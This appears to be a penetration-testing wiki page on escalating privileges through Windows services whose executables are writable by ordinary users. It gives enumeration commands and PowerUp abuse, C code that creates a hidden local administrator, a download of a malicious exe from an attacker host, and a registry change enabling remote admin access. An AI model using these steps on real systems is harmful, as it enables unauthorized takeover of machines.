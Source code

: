 ```yaml
---
authors: Anh4ckin3, ShutdownRepo
category: infra
---
```


# 🛠️ Weak service permissions

## Theory

File permissions in Windows define who is allowed to access, modify, or execute files on the system. If these permissions are misconfigured, they can enable unauthorized users to alter or replace critical files, potentially leading to security vulnerabilities such as unauthorized access.

Below is a summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure permissions on service executable 

#### Enumerate of vulnerable services
This type of abuse can occur when the binary of a Windows service is misconfigured. If the permissions for this binary allow a local user without special privileges to modify or replace it with a malicious version, the attacker may gain the privileges of the service account, which is often a high-privilege account.

Enumeration can be performed using PowerShell, either by leveraging native PowerShell commands (Living off the Land) or by utilizing additional tools and scripts like [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two lies in the results: PowerUp can identify whether a service is vulnerable, while PowerShell merely lists the binary services. In this example, the aniService service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```
Once the vulnerable binary has been identified using a tool like PowerUp or Winpeas, the permissions of the binary can be checked with **icacls.exe**. The most relevant permissions to look for are (F) and (M), particularly when they are associated with a group such as `Everyone`: or a local user, for example.
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe
                                    AUTORITE NT\System:(F)
                                    BUILTIN\Administrators:(F)
                                    Everyone:(F)
                                    BUILTIN\Users:(RX)
```

####  Crafting a malicious binary
In the current practical case, the executable permission (F) is set for the "Everyone" group. However, if the permission had been set to (M), abuse would also have been possible. Due to this misconfiguration, the attacker can easily replace the binary with a malicious version. PowerUp can be used to automate this task.

```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is executed, it will only be necessary to restart the service to ensure that the abuse has been successfully carried out.

The second method involves creating a custom malicious binary, which can offer advantages, such as bypassing antivirus detection. Below is a simple C code that will execute a Windows system command (the system command can, of course, be replaced with another).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

```

To compile Windows Executable it is possible to use `i686-w64-mingw32-gcc`.
```bash
> i686-w64-mingw32-gcc CODE.C$ -lws2_32 -o FILE.EXE$
```

#### Replacing binaries
Due to the incorrect permissions, the attacker can replace the original executable by renaming it, for example. The attacker can then add the new malicious file with the same name as the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<ATTACKER_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```

#### Methods for service restart
Once the binary is replaced, the service needs to be restarted. To verify if this is possible, a tool from the Sysinternals suite can be helpful, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) It is a tool that allows system administrators to quickly check the type of access users or specific groups have to resources, including files, directories, registry keys, global objects, and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage service startup are SERVICE_START and SERVICE_STOP. If these permissions are assigned to your user account or to a group that controls your access, you will be able to restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
An alternative exists if the Startup permissions are not present. Using the sc.exe tool, the boot method used by the service can be checked. If it is set to AUTO_START, this means the service starts automatically during Windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows for rebooting a Windows system. With this privilege, it is possible to indirectly restart a service, even without having the direct permissions to do so.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted, the payload should execute.

#### Configuring the LocalAccountTokenFilterPolicy

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local Administrators group (except for those with a RID of 500, such as the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction, the value of the key must be modified.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

### Ressources 
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)


